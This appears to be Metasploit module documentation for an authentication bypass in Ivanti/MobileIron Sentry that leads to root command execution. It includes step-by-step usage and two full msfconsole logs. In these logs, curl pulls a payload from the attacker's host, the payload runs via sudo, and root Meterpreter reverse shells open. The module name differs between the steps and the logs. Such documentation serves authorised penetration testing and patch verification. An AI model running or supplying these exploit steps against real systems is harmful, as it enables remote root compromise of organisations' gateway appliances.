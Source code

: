 ## Vulnerable Application
Ivanti Sentry (formerly Mobileiron Sentry) is vulnerable to an authentication by-pass which exposes API functionality which
allows for code execution in the context of the root user. The vulnerable endpoint `/mics/services/MICSLogService` exposes
a binary web service protocol 'Hessian' which allows remote users to invoke functions within the target. One of the functions
accessible via Hessian and the vulnerable endpoint is `uploadFileUsingFileInput` which accepts a `command` argument
that gets directly fed into a `Runtime.getRuntime().exec(cmd)` call. The command is run in the context of the `tomcat2`
user however by default `tomcat2` is able to execute commands with sudo thus we can use this to execute the payload in the context
of the `root` user.


## Verification Steps
1. Start `msfconsole`
1. Do: `use exploit/linux/http/ivanti_sentry_misc_service`
1. Do: `set RHOST [IP]`
1. Do: `set FETCH_SRVHOST [IP]`
1. Do: `set LHOST [IP]`
1. Do: `exploit`


### Installation
A vulnerable instance of the software can be downloaded with the following
[link](https://mobileironsentry.blob.core.windows.net/mobileironsentrycontainer/sentry-mobileiron-9.12.0-16.vhd)
(note the .vhd file is ~34 GB). Once downloaded, import the file into your favorite hypervisor to run the software.
VMware Fusion 12 with the Sentry VM configured with a bridged network adapter worked out of the box for testing the module.

## Options

### SLEEP
Because the execution context does not allow for command piping or chaining we need to split the multi command payload
by semi-colon and send each command individually. This delay specifies how long to wait for each command to run.

### USE_SUDO
The command is executed in the context of the `tomcat2` user. By default the `tomcat2` user has the ability to execute
commands with `sudo`. In the event Sentry is installed on an OS that doesn't have the `sudo` binary, this has been left
has a configurable option in case it needs to be disabled.

## Scenarios

### MobileIron Sentry 9.12.0-16 (Unix In Memory)
```
msf6 > use linux/http/ivanti_sentry_misc_log_service
[*] Using configured payload cmd/linux/http/x64/meterpreter_reverse_tcp
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set rhosts 192.168.1.78
rhosts => 192.168.1.78
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set fetch_srvhost 192.168.1.72
fetch_srvhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set verbose true
verbose => true
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > options

Module options (exploit/linux/http/ivanti_sentry_misc_log_service):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   SLEEP  3                yes       How long to wait for each command to run. Because the execu
                                             tion context does not allow for command piping or chaining
                                             we need to split the multi command payload by semi-colon an
                                             d send each command individually
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...
                                             ]
   RHOSTS         192.168.1.78     yes       The target host(s), see https://docs.metasploit.com/docs/us
                                             ing-metasploit/basics/using-metasploit.html
   RPORT          8443             yes       The target port (TCP)
   SSL            true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly gener
                                             ated)
   URIPATH                         no        The URI to use for this exploit (default is random)
   USE_SUDO       true             yes       Execute payload as root using sudo
   VHOST                           no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                        address on the local machine or 0.0.0.0 to listen on all address
                                       es.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter_reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, T
                                                  NFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      QldLjjMRU        no        Name to use on remote system when storing payload; can
                                                  not contain spaces.
   FETCH_SRVHOST       192.168.1.72     no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain s
                                                  paces.
   LHOST               192.168.1.72     yes       The listen address (an interface may be specified)
   LPORT               4443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > rexploit
[*] Reloading module...

[*] Command to run on remote host: curl -so /tmp/ccrjHXsc http://192.168.1.72:8080/etRbFA76UzDRclkL8zrTdg; chmod +x /tmp/ccrjHXsc; /tmp/ccrjHXsc &
[*] Fetch Handler listening on 192.168.1.72:8080
[*] HTTP server started
[*] Adding resource /etRbFA76UzDRclkL8zrTdg
[*] Started reverse TCP handler on 192.168.1.72:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Unix (In-Memory) for cmd/linux/http/x64/meterpreter_reverse_tcp
[*] Running the command: sudo curl -so /tmp/ccrjHXsc http://192.168.1.72:8080/etRbFA76UzDRclkL8zrTdg
[*] Client 192.168.1.78 requested /etRbFA76UzDRclkL8zrTdg
[*] Sending payload to 192.168.1.78 (curl/7.29.0)
[*] Running the command: sudo  chmod +x /tmp/ccrjHXsc
[*] Running the command: sudo  /tmp/ccrjHXsc &
[*] Meterpreter session 6 opened (192.168.1.72:4443 -> 192.168.1.78:40550) at 2023-08-29 14:27:57 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.8.2003 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```

### MobileIron Sentry 9.12.0-19 (Linux Dropper)

```
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set rhosts 192.168.1.78
rhosts => 192.168.1.78
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set lhost 192.168.1.72
lhost => 192.168.1.72
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set verbose true
verbose => true
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > set target 1
target => 1
msf6 exploit(linux/http/ivanti_sentry_misc_log_service) > run

[*] Started reverse TCP handler on 192.168.1.72:4443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.1.72:8080/vgrmjQ1
[*] Generated command stager: ["curl -so /tmp/NCAcpzqb http://192.168.1.72:8080/vgrmjQ1;chmod +x /tmp/NCAcpzqb;/tmp/NCAcpzqb;rm -f /tmp/NCAcpzqb"]
[*] Running the command: sudo curl -so /tmp/NCAcpzqb http://192.168.1.72:8080/vgrmjQ1
[*] Client 192.168.1.78 (curl/7.29.0) requested /vgrmjQ1
[*] Sending payload to 192.168.1.78 (curl/7.29.0)
[*] Running the command: sudo chmod +x /tmp/NCAcpzqb
[*] Running the command: sudo /tmp/NCAcpzqb
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.78
[*] Meterpreter session 7 opened (192.168.1.72:4443 -> 192.168.1.78:40572) at 2023-08-29 14:28:22 -0400
[*] Running the command: sudo rm -f /tmp/NCAcpzqb
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.8.2003 (Linux 3.10.0-1160.el7.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```


